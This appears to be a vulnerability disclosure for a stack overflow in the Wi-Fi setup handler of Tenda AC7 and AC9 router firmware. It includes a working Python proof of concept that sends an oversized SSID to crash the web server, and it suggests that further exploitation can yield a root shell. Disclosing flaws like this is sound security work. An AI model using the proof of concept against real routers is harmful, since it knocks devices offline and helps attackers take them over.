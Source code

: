 # Affected Version
Tenda AC7 V1.0 V15.03.06.44
Tenda AC9 V3.0 V15.03.06.42_multi
# Vulnerability Description


# Firmware download address
https://www.tenda.com.cn/download/detail-2776.html
https://www.tenda.com.cn/download/detail-2908.html

# Vulnerability Details
In function form_fast_setting_wifi_set line 35, ssid is a a user-controlled parameter(‘ssid’) and is read in without length check.Then in line 38 and line 39, the content of ssid is copied into local variable ssid_24g and ssid_5g, which leads to a stack overflow vulnerbility.
![](https://github.com/peris-navince/founded-0-days/blob/main/ac8/formSetFirewallCfg/1.png)


As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of httpd process.
<pre>
import requests

def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'ssid': 'a' * 0x1000}

headers = {
    'Host': '192.168.88.128',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.88.128/goform/fast_setting_wifi_set'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
</pre>

![](https://github.com/peris-navince/founded-0-days/blob/main/ac8/formSetFirewallCfg/0.png)

And you can write your own exp to get the root shell.
